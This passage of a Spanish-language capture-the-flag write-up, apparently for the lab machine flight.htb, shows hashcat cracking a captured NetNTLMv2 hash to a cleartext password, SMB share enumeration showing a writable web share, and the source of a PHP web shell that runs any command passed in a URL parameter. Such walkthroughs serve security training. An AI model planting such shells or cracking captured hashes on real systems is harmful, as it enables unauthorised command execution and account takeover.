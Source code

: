 {% highlight bash %}
C.BUM::flight.htb:aaaaaaaaaaaaaaaa:744ccbb8540c9014557af1e053985356:01010000000000000038696abc7fd9015e9b9cc20c0aba8300000000010010007a004300470079007700410065006100030010007a00430047007900770041006500610002001000580051005700450041005300530066000400100058005100570045004100530053006600070008000038696abc7fd90106000400020000000800300030000000000000000000000000300000f37fb59870b03702d1038e537042b995e28d50444162f1a69a511a324a4a3fa40a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00330039000000000000000000:Tikkycoll_431012284
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: C.BUM::flight.htb:aaaaaaaaaaaaaaaa:744ccbb8540c9014...000000
Time.Started.....: Fri May  5 21:49:34 2023 (8 secs)
Time.Estimated...: Fri May  5 21:49:42 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1151.4 kH/s (2.00ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10536960/14344384 (73.46%)
Rejected.........: 0/10536960 (0.00%)
Restore.Point....: 10534912/14344384 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Tiona172 -> Tiffany95
Hardware.Mon.#1..: Temp: 73c Util: 89%

Started: Fri May  5 21:49:32 2023
Stopped: Fri May  5 21:49:44 2023
{% endhighlight %}

¡Perfecto! otro usuario para probar.

No tiene acceso a WinRM también, pero si puede escribir en el recurso compartido en el que se aloja las web de flight.htb y school.flight.htb

{% highlight bash %}
[+] IP: 10.10.11.187:445	Name: school.flight.htb   	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	Shared                                            	READ, WRITE	
	SYSVOL                                            	READ ONLY	Logon server share 
	Users                                             	READ ONLY	
	Web                                               	READ, WRITE	
{% endhighlight %}

y la web al estar escrita en PHP nos permite colocar un archivo malicioso para ejecutar comandos, por lo que subiremos este

{% highlight php %}
<?php 
  if(empty($_GET["resource"])){
    die("Please specify a resource.");
  }

  echo system($_GET["resource"]);
?>
{% endhighlight %}
